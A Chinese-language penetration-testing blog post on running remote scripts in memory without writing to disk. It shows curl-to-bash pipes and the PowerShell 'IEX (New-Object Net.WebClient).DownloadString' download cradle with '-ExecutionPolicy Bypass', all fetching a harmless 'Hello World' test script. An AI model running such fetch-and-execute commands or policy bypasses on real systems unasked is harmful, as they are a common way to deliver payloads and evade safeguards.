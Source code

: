 ```yaml
---
layout: post
title: 在内存中执行远程脚本
tags: [linux,]
category: [渗透笔记,]
excerpt: 在不写入硬盘的情况下执行远程脚本的方法
---
```


在一些特殊情况下，我们不能向硬盘写入数据，但又要下载执行一个脚本，此时应如何做呢？  

## linux下执行远程Bash脚本

使用 curl 配合 `|`，就能基本实现：不接触硬盘，从远端加载脚本并执行。  

假设，在 `https://raw.githubusercontent.com/moonlightwatch/gadgets/master/testscripts/hello.sh` 处是一个 `bash` 脚本，内容如下：

```
echo "Hello World."
```

我们在本地执行：

```
curl https://raw.githubusercontent.com/moonlightwatch/gadgets/master/testscripts/hello.sh | bash
```

即可看到脚本执行的输出：`Hello World.`

如果，你不希望看到`curl`的输出，则可以给`curl`增加 `-Ls` 参数，使得`curl`不输出下载过程的信息。

```
curl -Ls https://raw.githubusercontent.com/moonlightwatch/gadgets/master/testscripts/hello.sh | bash
```

或者使左尖括号配合小括号的方法：

```
bash <(curl -Ls https://raw.githubusercontent.com/moonlightwatch/gadgets/master/testscripts/hello.sh)
```

效果是一模一样的。

## windows下执行远程Powershell脚本

### 基本思路

前述操作都是在Linux下的，同时也介绍下Windows中类似的操作。  

首先思路是一样的，下载一个文件并直接执行。  

我们会用到：

- Net.WebClient 用于下载远程脚本
- Invoke-Expression 用于执行脚本

假设，在 `https://raw.githubusercontent.com/moonlightwatch/gadgets/master/testscripts/hello.ps1` 处是一个 `powershell` 脚本，内容如下：

```
echo "Hello World."
```

那么我们可以在本地powershell内按如下执行此脚本：

```
Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/moonlightwatch/gadgets/master/testscripts/hello.ps1')
```

即可看到脚本执行的输出：`Hello World.`  

有时候我们会在 `cmd` 中执行，那么就不能直接使用 `Invoke-Expression` 了。我们可以调用 `powershell` 执行上述命令：

```
powershell "Invoke-Expression (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/moonlightwatch/gadgets/master/testscripts/hello.ps1')"
```

就可以了。实际上，这个在 `powershell` 里也是能运行的。  

假如你的命令是要给别人运行的，那么就给他后面这个样子的，保证在 `powershell` 和 `cmd` 中都能运行。  

其实关于 `Invoke-Expression` ，它可以简写为：`IEX`。上述命令就可以简化为：

```
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/moonlightwatch/gadgets/master/testscripts/hello.ps1')"
```
*这里不得不吐槽的是，网上文章各种抄，找资料的时候，这段命令各种少空格，显然是抄的时候不用心，自己都没执行过……*

### 优化操作

如果你的脚本执行了什么危险操作，是会受到 `powershell` 默认执行策略的限制的。但是我们可以通过 `-ExecutionPolicy` 来设置当前会话的执行策略。

其取值可以是：

- AllSigned
- Bypass
- Default
- RemoteSigned
- Restricted
- Undefined
- Unrestricted

我们可能会选择 `Bypass` ，这个策略是：

> Nothing is blocked and there are no warnings or prompts.

就是啥都不管，随便执行，也不会有警告或者提示。

那么我们的命令就变成如下样子：

```
powershell -ExecutionPolicy Bypass "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/moonlightwatch/gadgets/master/testscripts/hello.ps1')"
```

鉴于 `-ExecutionPolicy` 可以简写为：`-exec` ，那么我们的命令即可简写为：

```
powershell -exec Bypass "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/moonlightwatch/gadgets/master/testscripts/hello.ps1')"
```


## 参考文献

[About Execution Policies](https://docs.microsoft.com/zh-cn/powershell/module/microsoft.powershell.core/about/about_execution_policies)